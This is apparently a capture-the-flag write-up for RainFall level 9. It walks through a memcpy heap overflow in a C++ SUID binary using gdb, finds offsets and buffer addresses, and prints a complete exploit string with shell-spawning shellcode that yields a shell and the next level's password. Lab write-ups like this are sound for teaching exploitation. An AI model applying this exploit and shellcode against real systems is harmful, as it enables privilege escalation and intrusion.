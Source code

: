 # Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
### main() overview

Globally, ```main()``` initializes two instances (```n1``` & ```n2```) of class ```N``` which contain:
1. an annotation (string)
2. a number (int)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```n1->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` adds ```n1``` + ```n2```.

### Route to solution

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```n1->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, using the following example and [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we don't seem to be able to reach and overwrite EIP.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```n2``` after ```n1``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```n1``` and ```n2```. So can we write our malicious code in ```n1``` then overwrite ```n2``` with the address of our malicious code, then have ```main()``` call our malicious code for us when it adds? Not quite so simple...

```main()``` accesses ```n1->annotation``` dereferenced twice (a pointer to a pointer to contents), so we overwrite ```n2``` with the address of a pointer to our malicious code.

### Find buffer address

We need to find the address of ```n1```. In gdb, in the main we find the instruction after the call to ```n1->setAnnotation()``` is ```*main+136```. Put a break point at ```*main+136```, and run with a 4 byte argument ("BUFF"). Displaying the memory at %eax we find our argument stored in the buffer at ```0x804a00c```
```
level9@RainFall:~$ gdb -q level9
...
(gdb) disas main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
...
(gdb) break *main+136
...
(gdb) run "BUFF"
...
(gdb) x/s $eax
0x804a00c:	 "BUFF"
```

### Find function pointer address

We need to find the offset of ```n2```, where we overwrite the function pointer which is executed by ```main()```. ```n2``` corresponds to register ```eax``` at time of segfault. How many bytes after the start of the buffer?

Lets run the binary with our a pattern string from our favorite [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/)
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A
...
(gdb) info register eax
eax            0x41366441	1094083649
```
lets convert the contents of ```eax``` from hex to ascii with ```xxd```
```
>$ echo 0x41366441 | xxd -r -p | rev
Ad6A
```
Searching for ```Ad6A``` in the pattern string we find it starts at byte 109. This means we can overwrite ```n2``` from byte 109 of our exploit string.

### Build exploit string

So we build our exploit which will be copied to buffer address ```0x804a00c```:
1. address of malicious code (part 2) - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```n2``` - ```"A" * 76```
4. address of address of malicious code (part 1) - ```\x0c\xa0\04\x08```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Recreate Exploited Binary

As user ```bonus0```, in ```/tmp```, create and compile ```level9_source.cpp```
```
bonus0@RainFall:/tmp$ g++ level9_source.cpp -fno-stack-protector -z execstack -o level9_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus0@RainFall:/tmp$ chmod u+s level9_source; chmod +wx ~; mv level9_source ~
```

Exit back to user ```level9```, then provide our exploit with updated addresses.
With the same method as above we find the buffer address ```0x0804b008```.
```
bonus0@RainFall:/tmp$ exit
exit
level9@RainFall:~$ /home/user/bonus0/level9_source $(python -c 'print "\x10\xb0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xb0\04\x08"')
$ whoami
bonus0
```
